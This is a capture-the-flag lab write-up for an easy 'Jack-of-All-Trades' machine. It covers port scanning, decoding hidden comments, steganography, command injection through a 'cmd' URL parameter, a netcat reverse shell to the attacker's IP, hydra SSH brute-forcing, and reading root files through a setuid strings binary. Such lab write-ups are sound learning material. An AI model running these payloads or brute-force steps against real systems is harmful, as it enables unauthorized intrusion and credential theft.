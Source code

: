 # Jack-Of-All-Trades Write-up - Easy

## Nmap

```
nmap -sC -sV <ip> -p-
```

Open ports:
- http: 22. Apache httpd 2.4.10 ((Debian))
- ssh: 80. OpenSSH 6.7p1 Debian 5.

None of the versions appear to be vulnerable.


## HTML page

Strangely, it seems the usual ports for http and ssh have been reversed. Firefox attempted to block the connection to the webserver on port 22, so I had to change the blocker settings in about:config in order for it to allow the connection.

The source code for the home page contains the comment:
```
UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==
```

Putting this into the base64 command returns the decoded text as:
```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```
So now we have a password **u?WtKSraq**


## Gobuster

```
gobuster dir -e -u http://<ip>:22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

Interesting directories:
- **/recovery.php**
- **/assets**

recovery.php contains a login page, with the displayed message *Hello Jack! Did you forget your machine password again?..*. Viewing the source code finds the comment:

```
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ= 
```

Through some trial and error and the *CyberChef* tool, I managed to decode the comment with base32, followed by hex, and finally ROT13. This gave the message as:

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

The link leads to a Wikipedia page on Stegosauria, so I went back to the /assets directory and downloaded the images to look for hidden content.


## Steganography

```
wget http://<ip>:22/assets/stego.jpg
steghide extract -sf stego.jpg 
```

Using the password from the home page's source code as the passphrase, a *creds.txt* file was extracted from the image. It reads:
```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

Oops. I repeated this for the other images in the /assets directory, and finally found:
```
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

This now allows me to login into the site at /recovery.php with these credentials.
The text on the page reads *GET me a 'cmd' and I'll run it for you Future-Jack.*


## RCE & Privilege Escalation to jack

Because of the previous hint, I tried adding a 'cmd' parameter to the site and immediately got code execution. 
```
http://<ip>:22/nnxhweOV/index.php?cmd=nc <my_ip> <port> -e /bin/bash
```

Using netcat I was then able to get a reverse shell on my machine. Now stabilise it:
```
python -c "import pty; pty.spawn('/bin/bash')"
Ctrl-Z
stty raw -echo; fg
reset
```

I then found an interesting password list in /home: **jacks_password_list**. I downloaded this onto my machine and used it to brute force ssh.

```
hydra -l jack -P jacks_password_list 10.10.216.3 ssh -s 80
```

Now we have the credentials! ***jack : ITMJpGGIqg1jn?>@***.
This revealed the first user flag in the image user.jpg.


## Privilege escalation to root

I tried the usual escalation vectors, and found an interesting setuid binary **/usr/bin/strings**. This let me run the following command:

```
strings /root/root.txt
```
And this gave me the root flag :)

I did briefly attempt to get a shell as root by reading /etc/shadow, but the hash wasn't easily crackable so I figured this isn't intended or necessary.
